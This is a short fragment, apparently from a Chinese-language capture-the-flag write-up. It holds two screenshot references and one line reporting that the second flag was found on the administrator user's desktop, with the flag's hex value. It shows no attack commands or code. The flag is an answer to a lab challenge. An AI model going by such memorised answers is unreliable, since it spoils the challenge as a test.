

在administrator用户的桌面找到第二个flag,`740f431b22d42c687aac3be56b9eaec5`  

